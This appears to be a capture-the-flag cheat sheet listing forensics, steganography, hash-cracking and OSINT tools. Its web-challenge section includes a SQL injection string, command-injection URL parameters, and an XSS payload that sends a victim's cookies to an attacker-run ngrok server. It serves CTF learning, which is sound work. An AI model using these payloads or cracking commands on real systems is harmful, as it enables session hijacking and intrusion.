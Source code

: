# **These are best used in Kali Linux**

## **Reverse Engineering**
  ### To analyze ELF files:
    - https://elfy.io/
  ### To dissamble ELF:
    - https://onlinedisassembler.com/odaweb/

## **For steganography and Forensics:**

  ### For general files:
    - exiftool (filename)
    - binwalk -e (filename)
    - file (filename)
    - foremost -v filename
    - cat filename ----{to read executables}
    - stegsnow -C -p '1234' newdos.txt
    - https://futureboy.us/stegano/decinput.html  (jpeg, wav or au)
    - 0 width chars: https://330k.github.io/misc_tools/unicode_steganography.html
    - twitter spacing: https://holloway.nz/steg/
    
  ### For images:
    - strings filename | grep (stringtosearch)
    - steghide --extract -sf <filename>
    - zsteg -a <filename.png>
    - https://www.aperisolve.com/ (all in one steg tool)
    - https://lukeslytalker.pythonanywhere.com/deepscan
    - pngcheck
    - sudo apt install ruby
      sudo gem install zsteg
      zsteg <filename>
      (detect LSB steganography only in the case of PNG and BMP images.)

  ### For audio files:
    - audacity <file_name>
    - sonic-visualiser <file_name>
    - AudioStego (https://github.com/danielcardeenas/AudioStego)
    - Morse code wav files: https://morsecode.world/international/decoder/audio-decoder-expert.html

  ### File Signatures/Magic Numbers:
    - GIF : 47 49 46 38 39 61 18 01
    - PNG/IHDR : 89 50 4E 47 0D 0A 1a 0A
    
  ##  **Password cracking tools:
    - fcrackzip tool 
      fcrackzip -u -D -p ~/rockyou.txt ~/zipfilename.zip
    - john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 crack.txt
      for zip files:
        store the hash in a text file hash.txt
        first extract zip file hash : zip2john zipfile.zip > hash.txt
        then use john to crack: john --wordlist=rockyou.txt hash.txt 
    - stegcracker <file> [<wordlist>]   (used to crack passwords in files that contain hidden data)
    - sudo apt-get install pdfcrack
      pdfcrack -f <file_name> -w <location_of_wordlist_file>

  ## **For hashes**
    - https://hashtoolkit.com/
    - https://www.cmd5.org/
    - hashid - to identify the type of hash
    - www.crackstation.net
    - hashcat: 
      store the hash in a text file hash.txt
      hashcat -m <mode_number> -O hash.txt <wordlist>
      https://hashcat.net/wiki/doku.php?id=example_hashes
    
  ### Gcode simulator : https://nraynaud.github.io/webgcode/
  
  ## **Identify/Decode an unidentified encoding**
    - https://2cyr.com/decode/?lang=en
    - https://www.dcode.fr/cipher-identifier
    - https://gchq.github.io/CyberChef/
  
  
  ## **Barcode Reader/Detector**
  ### - https://products.aspose.app/barcode/recognize#/recognized
  
  ## **WEB forensics**
  ### Wayback machine
    - https://archive.org/web/

  ## **For Web Challenges:**
    - inspect element
    - view page source
    - robots.txt or other directory files (flag.txt)
    - check network (in inspect element) for any reloads/redirects
    - burpsuite
    - curl to send or receive data/payload
    - for sql injection try:
      abc' OR '1'='1'--
    - in URL, try ?cmd=ls -lrt
                  ?cmd=cd ..;ls -lrt
                  ?cmd=cat flag.txt 
    - try editing cookies (admin = True) [in login challenges]
    - to modify headers: use curl 
      ex. curl -H "Host: test.example" http://example.com/
    - try moving back directories using local file inclusion vulnerability
    - explore directories : append the url with /../
    - try checking for files like: /.git
    - to clone all directories of a website: wget -m <URL>
    - XSS: try entering html code or JS code (e.x <h1>hi</h1> or <script>alert(1)</script>
      using js:  1. setup web server: sudo python -m http.server 80
                 2. setup ngrok server: ngrok http 80
                 3. copy the web address displayed by ngrok
                 4. in vulnerave website, where you can post inputs, type <script>new Image().src='<copied url>?c='+document.cookie</script>
                 5. get admin cookie or required cookie in http server. replace your cookie with that cookie and refresh. 
    - template injection payload ex. {{7*7}}
    - check for xml injection (xxe vulnerability)
                

    
  ## **OSINT**
    - https://osintframework.com/
    - https://nixintel.info/osint/12-osint-resources-for-e-mail-addresses/
    - https://www.shodan.io/        (search engine for anything)
    - Google Dorking: https://infosecwriteups.com/finding-vulnerable-info-using-google-dorks-ethical-hacking-23f358117ceb
  
  
  ### Useful links and repos:
    - https://www.dcode.fr/cipher-identifier
    - https://gchq.github.io/CyberChef/
    - https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/steganography
    - https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d
    - https://0xrick.github.io/lists/stego/
    - https://d00mfist.gitbooks.io/ctf/content/forensics/data-extraction.html
    - https://futureboy.us/stegano/decinput.html
    - https://www.dcode.fr/png-chunks
    - https://github.com/R0B1NL1N/PayloadsAllTheThings
    - https://shankaraman.wordpress.com/tag/how-to-extract-ftp-files-from-wireshark-packet/#:~:text=Just%20open%20the%20packet%20in,the%20files%20in%20a%20Directory.&text=Firstly%2C%20the%20Client%20(10.10.,request%20to%20the%20Server%20(78.47.
    - ophcrack
    - https://www.yeahhub.com/the-12-best-must-have-tools-for-steganography-updated-tools/
    - https://www.hackingarticles.in/online-message-decoder-spam-maker/
    - https://330k.github.io/misc_tools/unicode_steganography.html
    - https://wiki.bi0s.in/
    - encoding conversion: https://www.rapidtables.com/
    - hashcat cheatsheet: https://hashcat.net/wiki/doku.php?id=hashcat
                          https://github.com/frizb/Hashcat-Cheatsheet
    - lfi cheat sheet https://book.hacktricks.xyz/pentesting-web/file-inclusion
                      https://highon.coffee/blog/lfi-cheat-sheet/
    - search for vulnerabilities and exploits: https://book.hacktricks.xyz/welcome/readme
    - extract text from images: tesseract: tesseract -l eng <imagefile> output.txt
    - secret messages - https://holloway.nz/steg/
